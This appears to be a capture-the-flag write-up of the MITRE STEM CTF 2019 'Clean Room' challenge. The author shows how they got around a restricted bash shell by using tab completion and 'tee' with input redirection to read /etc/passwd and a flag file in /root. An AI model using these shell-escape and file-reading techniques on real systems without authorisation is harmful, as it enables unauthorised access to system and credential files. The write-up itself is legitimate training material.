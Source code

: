 ```yaml
---
layout: single
title: "MITRE STEM CTF Cyber Challenge 2019 - Clean Room (Linux 50pts)"
date: 2019-02-24
---
```

Description:

>The year is 30xx. Clyde is trapped in an interdimensional transport module. The Federation has captured the module and has prepared to dock. The captain of the Federation lander has instructed the henchmen to bring Clyde in to Federation custody. As a precaution they will place Clyde in a clean room to remove any radiation. Luckily, you’ve hacked into the lander’s mainframe. Help Clyde escape!

>ssh ctf@138.247.13.108


```
ctf@e94f4dd9664a:~$ ls
-rbash: ls: command not found
```
## What the rbash?!

From the [bash manual](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html).

> If Bash is started with the name rbash, or the --restricted or -r option is supplied at invocation, the shell becomes restricted. A restricted shell is used to set up an environment more controlled than the standard shell. A restricted shell behaves identically to bash with the exception that the following are disallowed or not performed:

> * Changing directories with the cd builtin.
> * Setting or unsetting the values of the SHELL, PATH, ENV, or BASH_ENV variables.
> * Specifying command names containing slashes.
> * Specifying a filename containing a slash as an argument to the . builtin command.
> * Specifying a filename containing a slash as an argument to the -p option to the hash builtin command.
> * Importing function definitions from the shell environment at startup.
> * Parsing the value of SHELLOPTS from the shell environment at startup.
> * Redirecting output using the ‘\>’, ‘\>\|’, ‘\<\>’, ‘\>&’, ‘&\>’, and ‘\>\>’ redirection operators.
> * Using the exec builtin to replace the shell with another command.
> * Adding or deleting builtin commands with the -f and -d options to the enable builtin.
> * Using the enable builtin command to enable disabled shell builtins.
> * Specifying the -p option to the command builtin.
> * Turning off restricted mode with ‘set +r’ or ‘set +o restricted’.



So now that we know what we can't do, what can we do? We can use bash's command completion (tab) in order to enumerate a list of functions and commands available.
```bash
ctf@e94f4dd9664a:~$
!          break      coproc     enable     fi         jobs       popd       shift      true       {
./         builtin    declare    esac       for        kill       printf     shopt      type       }
:          caller     dirs       eval       function   l          pushd      source     typeset
[          case       disown     exec       getopts    la         pwd        suspend    ulimit
[[         cd         do         exit       grep       let        read       tee        umask
]]         command    done       export     hash       ll         readarray  test       unalias
alert      compgen    echo       false      help       local      readonly   then       unset
alias      complete   egrep      fc         history    logout     return     time       until
bg         compopt    elif       fg         if         ls         select     times      wait
bind       continue   else       fgrep      in         mapfile    set        trap       while
```

The command: [tee(1)](http://man7.org/linux/man-pages/man1/tee.1.html) immediately stood out as it is not a builtin command and can be used to enumerate directory contents and read files. Using tee and shell completion, we can list the files in a directory.

```bash
ctf@e94f4dd9664a:~$ tee
.bash_logout  .bashrc       .profile      bin/
```

We can also use a combination of tee and shell input redirection to read the contents of any file that we have access to
```bash
ctf@e94f4dd9664a:~$ tee < /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
ctf:x:1000:1000::/home/ctf:/bin/rbash
```


We enumerated many directories looking for anything that stood out.
```
ctf@e94f4dd9664a:~$ tee < /
.dockerenv  dev/        lib/        mnt/        root/       srv/        usr/
bin/        etc/        lib64/      opt/        run/        sys/        var/
boot/       home/       media/      proc/       sbin/       tmp/
```

It turned out that root's home directory was world readable and contained a file, flag.txt which contained as it's name suggests... the flag.
```bash
ctf@e94f4dd9664a:~$ tee < /root/
.bashrc   .profile  flag.txt

ctf@e94f4dd9664a:~$ tee < /root/flag.txt
MCA{ieHaisoh4eif2ae}
```

